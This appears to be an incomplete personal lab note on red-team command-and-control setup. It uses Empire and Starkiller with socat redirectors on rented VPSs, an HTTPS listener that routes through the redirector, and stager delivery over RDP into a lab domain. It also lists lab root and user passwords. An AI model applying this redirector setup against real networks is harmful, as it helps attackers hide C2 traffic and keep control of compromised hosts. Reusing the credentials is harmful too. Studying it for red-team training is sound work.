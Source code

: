 #### Tags: [[12 - Command and Control (TA0011)]]
## Objectives

    Understand the use of redirectors in attack infrastructure
    Create a listener on Empire that will expect redirector routing
    Create stager payloads that will route through the redirector
    Execute the stager payload in the lab environment

## Overview
This lab will focus on the:
- Use of redirectors to create a buffer between the C2 server (Blue Space) and the Target network (Red Space). 
- We will create an account on a Virtual Private Server (VPS) vendor and 
- Provision two VPS's to redirect traffic through.
- Thus, we will leverage Empire C2 stager (Red Space) to perform routing via redirector (Grey Space) to reach the Empire listener (Blue Space).

![[Pasted image 20240310163005.png]]
#### Redirector Communication Pattern
1. C2 Listener will use Redirector IP Address
2. The VPS running Redirector will leverage socat to redirect traffic from Stager (incoming) to Listener (outgoing)
3. C2 Stager will callback to Redirector IP Address
### 1. Launch [[Empire C2#Create an Empire listener|Empire C2 & Setup Communication]]

1. Launch Empire by starting the server 
	1. `sudo ./ps-empire server`
2. Start the StarKiller from the terminal.
	1. `./starkiller-1.9.0.AppImage --no-sandbox`
3. Log into Starkiller UI
	1. `Url: https://localhost:1337 | Username: empireadmin | Password: password123
4. Create certificates for HTTPS, this is optional as Empire normally already has bundled default certificates, but let's do it for good measure.
	1. `cd /opt/Empire/setup/ && ./cert.sh
### 2. Provision VPS
```markdown
# Spawn VPS for redirection:
4-8-15.vpspawn.com with credentials root : 0wnTHEnet!
16-23-42.vpspawn.com with credentials root : ONth3NET?
```
![[Pasted image 20240310165118.png]]

### 3. socat Redirection
1. SSH to your new VPS as root and using one of the passwords provided by vpspawn.com. 
	1. `ssh root@4-8-15.vpspawn.com`
2. Take note of the eth0 adapter's IP, you will need this later.
	1. `ip a`
3. Then create a screen session and run socat using the syntax below:
	1. `screen -S socat443`
	2. `socat TCP4-LISTEN:443,fork TCP4:<C2-IP-Address or Hostname>:443`

Note: The C2 IP addr or hostname can be the value of your tun0 adapter.

Note: The use of screen is a safety mechanism because we can get back to shell that has our socat process if we get disconnected from our redirector.
- To detach from the screen session type` Ctrl+a then d`. 
- To view screen sessions run `screen -ls` 
- To reattach to a detached screen run `screen -r <screen session name>.`

### 4. Create Listener
Create an Empire listener with a Host set to a redirector address
- ###### Listener will have the IP address or hostname of the redirector, and not your tun0 adapter. 
- ###### Stager will have the Redirector IP / Host value will be used for communication, and not want your C2 server's address or hostname here.

Select http in the drop down menu. Then provide the following values:

    Name: interactive-https
    Host: https://10.130.7.5:443 <- This must be the ip address or hostname of the redirector
    Port: 443
    Bind IP: 0.0.0.0
    StagingKey: AddSomethingRandomTo32Characters
    CertPath: /opt/Empire/empire/server/data

Leave the rest as defaults and click the SUBMIT button in the upper right corner of the screen.

![[Pasted image 20240310173626.png]]
### 5. Create Stager
- Create a stager payload



![[Pasted image 20240310173648.png]]

#### 6. Deliver Stager
- Execute the stager to create an Agent in the target environment via RDP: 
`xfreerdp +clipboard /cert-ignore /u:Gareth.Kilgallen /p:Hu825meapvsAq#Rx /v:wk01.draconem.corp

#### 7. Agent Interaction

```markdown
```

### Conclusion


### Resources | Notes | Bonus

```markdown
```

#### Notes
- Add a link to Empire on how we are leveraging C2 stager to perform routing via redirector to reach the Empire listener





## Conclusion
